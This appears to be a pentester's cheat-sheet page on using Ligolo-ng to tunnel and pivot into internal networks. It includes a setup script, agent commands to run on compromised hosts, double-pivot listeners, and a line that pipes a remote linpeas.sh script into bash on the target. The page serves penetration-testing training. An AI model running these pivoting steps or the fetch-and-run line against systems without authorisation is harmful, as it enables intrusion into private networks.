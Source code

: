 ```yaml
---
description: >-
  Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to
  establish tunnels from a reverse TCP/TLS connection using a tun interface
  (without the need of SOCKS).
---
```


# Quick setup Ligolo

{% embed url="https://youtu.be/5E9PCIJG8sY?si=Twia81xeB7M-GCtu" %}
This custom script can be download below.
{% endembed %}

<details>

<summary>run_ligolo.sh</summary>

```python
#!/bin/bash

# Function to display usage
usage() {
    echo "Usage: $0 [-p platform] [-i ip_route]"
    echo "  -p: Platform (linux or windows)"
    echo "  -i: IP route (e.g., 172.16.1.0/24)"
    exit 1
}

# Function to get tun0 IP
get_tun0_ip() {
    ip addr show tun0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
}

# Parse command line arguments
while getopts "p:i:" opt; do
    case $opt in
        p) PLATFORM=$OPTARG ;;
        i) IPROUTE=$OPTARG ;;
        *) usage ;;
    esac
done

# Validate arguments
if [ -z "$PLATFORM" ] || [ -z "$IPROUTE" ]; then
    usage
fi

if [ "$PLATFORM" != "linux" ] && [ "$PLATFORM" != "windows" ]; then
    echo "Error: Platform must be 'linux' or 'windows'"
    exit 1
fi

# Set agent file based on platform
AGENT_FILE="agent"
[ "$PLATFORM" = "windows" ] && AGENT_FILE="agent.exe"

# Setup ligolo interface and route
echo "[+] Setting up ligolo interface..."
sudo ip tuntap add mode tun ligolo || { echo "[-] Failed to create tun interface"; exit 1; }
sudo ip link set ligolo up || { echo "[-] Failed to bring up interface"; exit 1; }
sudo ip route add "$IPROUTE" dev ligolo || { echo "[-] Failed to add route"; exit 1; }
echo "[+] IP route added for $IPROUTE"

# Get tun0 IP
TUN0_IP=$(get_tun0_ip)
if [ -z "$TUN0_IP" ]; then
    echo "[-] Could not determine tun0 IP"
    exit 1
fi

# Start HTTP server in background
echo "[+] Starting HTTP server..."
python3 -m http.server 8000 &
HTTP_PID=$!
echo "[+] File available at http://$TUN0_IP:8000/$AGENT_FILE"

# Start proxy
echo "[+] Starting proxy..."
./proxy -selfcert

# Cleanup
kill $HTTP_PID

```

</details>



Download binairies

{% embed url="https://github.com/nicocha30/ligolo-ng/releases/tag/v0.4.4" %}

#### 1. Setup host

<pre class="language-bash"><code class="lang-bash"># Setup TUN interface and route traffic through target subnet
sudo ip tuntap add user kali mode tun ligolo &#x26;&#x26; sudo ip link set ligolo up &#x26;&#x26; sudo ip route add 172.20.200.0/24 dev ligolo
<strong>
</strong><strong># Add another subnet in case of double pivot
</strong>sudo ip route add 172.20.200.0/24 dev ligolo
</code></pre>

#### 2. Start  Ligolo proxy

```bash
# Start proxy on host
./proxy -selfcert
```

#### 3. Run Ligolo agent on target

```bash
# Start agent on Linux
./agent -connect 172.10.10.10:11601 -ignore-cert

# Start agent on Windows
agent.exe -connect 172.10.10.10:11601 -ignore-cert
```

#### Listeners

For reverse connections you can add listeners. If you want for example run a http server on port 8888 you add a listener.&#x20;

```bash
# Add listener
listener_add --addr 0.0.0.0:8888 --to 127.0.0.1:8888 --tcp

# Run http server
python -m http.server 8888

# You can then Curl 
curl http://172.10.10.10:8888/linpeas.sh | Bash
```

#### Pivotting with Ligolo

{% hint style="info" %}
A. You: 172.10.10.10  --  B. MS01:  10.10.14.14  --  C. BC01: 10.10.200.5
{% endhint %}

```bash
# Copy agent to MS01 run
./agent -connect 172.10.10.10:11601 -ignore-cert
```

#### Double Pivot with Ligolo

```bash
# Add new listener
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

# Copy agent to BC01 and run
./agent -connect 10.10.14.14:11601 -ignore-cert
```

#### Doube pivot with Ligolo using tun mode

```
// Some code
```

